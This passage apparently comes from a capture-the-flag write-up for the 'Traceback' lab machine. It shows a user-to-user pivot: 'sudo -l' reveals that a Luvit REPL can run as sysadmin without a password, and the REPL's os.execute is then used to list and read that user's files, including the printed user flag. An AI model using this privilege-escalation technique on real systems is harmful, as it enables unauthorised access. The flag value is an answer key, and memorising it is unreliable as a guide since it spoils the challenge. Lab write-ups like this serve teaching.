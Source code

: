 The first thing I do when getting a new user account is see what privileges I have and if I can execute anything with `sudo` by using the `-l` flag.

```text
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

I was able to execute the `luvit` program in `sysadmin`'s home folder as that user without a password.

### Making user creds

```text
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
>
```

By reading a bit on `luvit`, I discovered it was essentially a `lua` programming language shell.  

> Repl\#
>
> Implementation of a read-execute-print-loop in Luvit. Used by the Luvit repl which is returned when the Luvit binary is executed without args.

From [https://www.lua.org/pil/22.2.html](https://www.lua.org/pil/22.2.html) I discovered I could execute system commands by using the syntax `os.execute("mkdir " .. dirname)`. 

```lua
> os.execute("ls")
note.txt
true    'exit'  0
> os.execute("cat" .. "note.txt")
sh: 1: catnote.txt: not found
nil     'exit'  127
```

![Put a space between the command and the argument](/assets/markups/traceback-info-troubleshooting.svg)
### User.txt

```lua
> os.execute("cat" .. " note.txt")
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
true    'exit'  0
> os.execute("ls " .. "/home/sysadmin")
luvit  user.txt
true    'exit'  0
> os.execute("cat " .. "/home/sysadmin/user.txt")
6e0b7c8e082d705212635e729a391419
true    'exit'  0
```
